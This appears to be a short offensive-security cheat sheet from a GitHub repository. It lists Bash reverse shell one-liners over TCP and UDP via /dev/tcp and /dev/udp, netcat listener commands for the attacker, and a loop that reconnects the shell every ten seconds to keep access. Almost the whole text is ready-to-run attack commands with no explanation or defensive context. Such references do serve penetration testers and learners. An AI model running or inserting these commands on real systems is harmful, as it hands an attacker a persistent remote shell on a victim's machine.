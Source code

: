 # Bash

## 01 - TCP Method

- Target

```
$ /bin/bash -i >& /dev/tcp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/tcp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

- Attacker

```
userware@hackware-os:~$ nc -lnvp <LPORT>
```

## 02 - UDP Method

- Target

```
$ /bin/bash -i >& /dev/udp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/udp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

- Attacker

```
userware@hackware-os:~$ nc -luvp <LPORT>
```

## 03 - Persistent Callback Shell

- In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/bash -c /path/to/shell; sleep 10; done

$ while true; do /bin/bash -i >& /dev/<protocol>/<IP>/<LPORT> 0>&1; sleep 10; done
```

---
## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)